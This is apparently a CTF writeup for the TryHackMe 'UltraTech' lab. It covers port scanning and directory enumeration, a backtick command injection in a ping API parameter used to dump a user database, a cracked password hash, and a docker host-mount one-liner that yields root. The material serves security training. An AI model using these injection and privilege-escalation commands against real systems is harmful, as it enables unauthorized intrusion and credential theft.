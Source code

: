 ```yaml
---
title: "UltraTech CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-14
hero: ./images/hero.png
excerpt: "Writeup for the UltraTech CTF room on TryHackMe"
---
```


[TryHackMe | UltraTech CTF](https://tryhackme.com/room/ultratech1)

This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.

If you get stuck at some point, take some time to keep enumerating.

**[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

**Start this room by hitting the "deploy" button on the right!**

Good luck and more importantly, have fun!

# Part 1

After enumerating the services and resources available on this machine, what did you discover?

---

### Setup ✅

```bash
➜  TryHackMe nmap -A -vv 10.10.124.2
```

```bash
21/tcp   open  ftp     syn-ack vsftpd 3.0.3

22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3

8081/tcp open  http    syn-ack Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 Which software is using the port 8081?

```bash
8081/tcp open  http    syn-ack Node.js Express framework
```

```bash
node.js
```

### #2 Which other non-standard port is used?

Since on our first nmap scan we didn't find the port let's scan all the ports

```bash
➜  ~ TryHackMe nmap -A -vv -p- 10.10.124.2
```

```bash
31331/tcp open
```

### #3 Which software using this port?

```bash
apache
```

### #4 Which GNU/Linux distribution seems to be used?

```bash
ubuntu
```

### #5 The software using the port 8080 is a REST api, how many of its routes are used by the web application?

<div className="Image__Medium">
  <img src="https://imgur.com/HJrW4R2.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe gobuster dir -u http://10.10.124.2:8081/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.124.2:8081/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/13 17:44:16 Starting gobuster
===============================================================
/auth (Status: 200)
```

<div className="Image__Medium">
  <img src="https://imgur.com/8hEyF02.png" alt="blog_image" />
</div>

# Part 3

---

Now that you know which services are available, it's time to exploit them !

Did you find somewhere you could try to login ? Great !

Quick and dirty login implementations usually goes with poor data management.

There must be something you can do to explore this machine more thoroughly..

### #1 There is a database lying around, what is its filename?

<div className="Image__Medium">
  <img src="https://imgur.com/tuO0kgU.png" alt="blog_image" />
</div>

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/
```

```bash
➜  TryHackMe dirb http://10.10.124.2:31331/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jun 13 18:30:24 2020
URL_BASE: http://10.10.124.2:31331/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.124.2:31331/ ----
==> DIRECTORY: http://10.10.124.2:31331/css/
+ http://10.10.124.2:31331/favicon.ico (CODE:200|SIZE:15086)
==> DIRECTORY: http://10.10.124.2:31331/images/
+ http://10.10.124.2:31331/index.html (CODE:200|SIZE:6092)
==> DIRECTORY: http://10.10.124.2:31331/javascript/
==> DIRECTORY: http://10.10.124.2:31331/js/
+ http://10.10.124.2:31331/robots.txt (CODE:200|SIZE:53)
+ http://10.10.124.2:31331/server-status (CODE:403|SIZE:302)
```

<div className="Image__Medium">
  <img src="https://imgur.com/JwcnH47.png" alt="blog_image" />
</div>

```bash
Sitemap: /utech_sitemap.txt
```

<div className="Image__Medium">
  <img src="https://imgur.com/0QGLxrF.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/4oxDK1P.png" alt="blog_image" />
</div>

As you can see there is some script on the bottom of the page

<div className="Image__Medium">
  <img src="https://imgur.com/bHSVNrk.png" alt="blog_image" />
</div>

```bash
function getAPIURL() {
return `${window.location.hostname}:8081`
function checkAPIStatus() {
const req = new XMLHttpRequest();
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

Let's try if we can ping something with the api

<div className="Image__Medium">
  <img src="https://imgur.com/k6dMvGz.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/NiZaChE.png" alt="blog_image" />
</div>

```bash
utech.db.sqlite
```

### #2 What is the first user's password hash?

After some tries, something cool happened, if we cat the database name we can see the user's password hash

```bash
http://10.10.124.2:8081/ping?ip=`cat%20utech.db.sqlite`
```

<div className="Image__Medium">
  <img src="https://imgur.com/BFY62ek.png" alt="blog_image" />
</div>

```bash
r00tf357a0c52799563c7c7b76c1e7543a32
```

### #3 What is the password associated with this hash?

Let's see if in the crack station database we can have the user's password

<div className="Image__Medium">
  <img src="https://imgur.com/ULh9XYu.png" alt="blog_image" />
</div>

Yep ! That worked 🤤

```bash
password : n100906
```

# Part 4

---

Congrats if you've made it this far, you should be able to comfortably run commands on the server by now!

Now's the time for the final step!

You'll be on your own for this one, there is only one question and there might be more than a single way to reach your goal.

Mistakes were made, take advantage of it.

---

### #1 What are the first 9 characters of the root user's private SSH key?

We can try the api "/auth" 😵

<div className="Image__Medium">
  <img src="https://imgur.com/hQLygDy.png" alt="blog_image" />
</div>

```bash
http://10.10.124.2:8081/auth?login=r00t&password=n100906
```

<div className="Image__Medium">
  <img src="https://imgur.com/k8UD4e5.png" alt="blog_image" />
</div>

As you can see the is the group docker let's try something

[docker | GTFOBins](https://gtfobins.github.io/gtfobins/docker/)

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

<div className="Image__Medium">
  <img src="https://imgur.com/dlyIsfn.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/WZFA2m7.png" alt="blog_image" />
</div>

```bash
MIIEogIBA
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
